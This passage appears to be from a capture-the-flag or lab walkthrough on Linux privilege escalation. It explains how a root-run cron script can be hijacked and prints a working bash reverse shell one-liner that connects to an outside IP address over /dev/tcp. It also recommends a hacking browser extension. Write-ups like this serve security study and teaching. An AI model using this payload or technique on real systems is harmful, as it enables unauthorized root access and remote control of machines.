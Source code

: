 ![](attachments/20240402163909.png)

Checking crontab shows the script runs every 2 minutes.

How can we exploit this to gain root access?

By injecting a reverse shell payload into the script, setup a netcat listener and then wait for the script to execute and we gain a root shell.

Reverse shell payload:

```shell
bash -c 'exec bash -i &>/dev/tcp/3.68.171.119/18599 <&1'
```

This browser extension is called HackTools, search on google to get one for your browser.
